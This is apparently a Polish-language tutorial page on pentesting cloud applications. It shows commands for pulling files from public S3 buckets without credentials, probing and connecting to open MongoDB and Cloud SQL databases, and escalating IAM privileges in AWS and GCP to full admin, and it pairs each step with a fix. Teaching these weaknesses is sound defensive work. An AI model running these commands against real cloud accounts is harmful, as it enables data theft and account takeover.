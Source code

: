 ```yaml
---
id: "cloud-testing"
title: "☁️ Testowanie aplikacji w chmurze (AWS, Azure, GCP)"
sidebar_position: 17
---
```


# ☁️ Testowanie aplikacji w chmurze (AWS, Azure, GCP)

Aplikacje wdrażane w chmurze często cierpią na błędne konfiguracje oraz niewłaściwie skonfigurowane uprawnienia, co może prowadzić do przejęcia zasobów, wycieku danych oraz eskalacji uprawnień w środowisku chmurowym.

---

## 🔍 Błędne konfiguracje chmury

### **1️⃣ Publiczne zasoby S3 w AWS**
Amazon S3 to popularna usługa przechowywania danych, ale często zdarza się, że zasoby są udostępnione publicznie.

#### **1.1 Wyszukiwanie publicznych bucketów S3**
```bash
aws s3 ls s3://example-bucket --no-sign-request
```
Jeśli bucket jest publiczny, można pobrać jego zawartość:
```bash
aws s3 cp s3://example-bucket/secrets.txt . --no-sign-request
```
Rozwiązanie: **Ustaw polityki dostępu do bucketów S3 na `private` i ogranicz dostęp tylko do autoryzowanych użytkowników.**

#### **1.2 Sprawdzanie błędnie skonfigurowanych CDN (CloudFront)**
Jeśli serwer backendowy jest publicznie dostępny, można spróbować go wywołać bezpośrednio:
```bash
curl -I https://backend.example.com
```
Jeśli serwer odpowiada, oznacza to, że może być podatny na ataki SSRF lub eksfiltrację danych.

---

### **2️⃣ Niewłaściwe konfiguracje baz danych w chmurze**
Bazy danych w chmurze często są błędnie skonfigurowane, umożliwiając nieautoryzowany dostęp.

#### **2.1 Wyszukiwanie otwartych baz danych MongoDB**
```bash
nmap -p 27017 --script mongodb-info example.com
```
Jeśli baza zwraca dane, można próbować uzyskać dostęp:
```bash
mongo --host example.com --port 27017
show dbs;
```
Rozwiązanie: **Włącz autoryzację i ogranicz dostęp do bazy do konkretnych adresów IP.**

#### **2.2 Sprawdzanie publicznych baz danych w Google Cloud**
Google Cloud SQL może być podatne, jeśli nie wymusza autoryzacji IP:
```bash
gcloud sql instances list --project=my-project
```
Jeśli instancja jest widoczna publicznie, można spróbować nawiązać połączenie:
```bash
gcloud sql connect my-instance --user=root
```
Rozwiązanie: **Ustaw ograniczenia dostępu i wymuś uwierzytelnianie kluczem.**

---

## 🔥 IAM Privilege Escalation
IAM (Identity and Access Management) jest kluczowym mechanizmem kontroli dostępu w chmurze, ale niewłaściwe konfiguracje mogą pozwolić atakującym na eskalację uprawnień.

### **3️⃣ Wyszukiwanie nadmiernych uprawnień IAM w AWS**
Jeśli użytkownik ma możliwość modyfikowania własnych uprawnień, może uzyskać dostęp administracyjny:
```bash
aws iam list-policies --scope Local
```
Jeśli znajdziemy politykę `iam:PutUserPolicy`, można dodać własne uprawnienia:
```bash
aws iam put-user-policy --user-name hacker --policy-name escalated --policy-document '{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Action":"*","Resource":"*"}]}'
```
Teraz użytkownik `hacker` ma pełne uprawnienia.

Rozwiązanie: **Ograniczenie uprawnień IAM poprzez zasady `least privilege`.**

---

### **4️⃣ Przejęcie roli IAM w Google Cloud**
Jeśli użytkownik może edytować role IAM, może dodać się do grupy administratorów:
```bash
gcloud projects add-iam-policy-binding my-project \
    --member=user:hacker@example.com --role=roles/owner
```
Teraz `hacker@example.com` ma pełne uprawnienia do projektu.

Rozwiązanie: **Używanie zasad `deny policy` i regularny audyt uprawnień IAM.**

---

## 🔐 Jak zabezpieczyć aplikacje w chmurze?
✅ **Regularnie audytuj konfiguracje S3, baz danych i usług sieciowych.**
✅ **Ogranicz uprawnienia IAM do absolutnego minimum.**
✅ **Włącz monitoring i alertowanie dla nietypowych działań.**
✅ **Używaj narzędzi typu AWS GuardDuty, Google Security Command Center do wykrywania zagrożeń.**
✅ **Blokuj dostęp do metadanych instancji (`169.254.169.254`) w ramach ochrony przed SSRF.**

---

Testowanie aplikacji w chmurze jest kluczowe dla bezpieczeństwa infrastruktury IT. Kolejnym krokiem będzie analiza podatności **Case Studies i ćwiczenia praktyczne**! 🚀
